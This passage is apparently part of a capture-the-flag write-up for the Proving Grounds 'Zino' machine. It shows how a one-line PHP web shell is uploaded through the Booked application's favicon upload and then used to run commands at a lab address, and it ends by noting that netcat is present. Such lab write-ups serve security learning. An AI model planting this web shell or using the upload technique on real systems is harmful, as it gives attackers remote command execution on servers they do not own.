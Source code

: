 ![Upload Page](/assets/ProvingGrounds/Zino/uploads.png "Upload Page")

2. Create the rce.php file with the following content:

```bash
<?php system($_GET['cmd']); ?>
```

3. Upload the php file to the favicon section of the site

4. navigate to http://192.168.200.64:8003/booked/Web/custom-favicon.php?cmd=whoami

![Web Shell](/assets/ProvingGrounds/Zino/web-shell.png "Web Shell")

## Shell on Zino

Using the webshell we identify that nc is on the host.

![Identify nc](/assets/ProvingGrounds/Zino/nc.png "Identify nc")
